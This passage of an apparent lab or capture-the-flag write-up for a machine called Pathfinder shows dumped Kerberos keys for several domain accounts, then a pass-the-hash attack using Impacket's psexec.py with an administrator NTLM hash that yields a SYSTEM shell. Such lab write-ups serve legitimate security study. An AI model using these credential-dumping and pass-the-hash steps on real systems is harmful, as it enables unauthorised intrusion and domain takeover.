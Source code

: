 ```
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:0d0ebf46ef310c3420ef62aa0f45ca0a0f58df3ec851c251e10b86de3d64e22a
PATHFINDER$:aes128-cts-hmac-sha1-96:f98eb6ab885be55f0e5aa2cc267c4ca1
PATHFINDER$:des-cbc-md5:a23bad805b2525ea
[*] Cleaning up... 
```

Using the default domain administrator NTLM hash, we can use this in a PTH attack to gain elevated access to the system. For this, we can use  Impacket's psexec.py.

```
┌──(root💀kali)-[/home/kali/Documents/tools/impacket/examples]
└─# python3 psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file YThJDZyj.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service QedB on 10.10.10.30.....
[*] Starting service QedB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

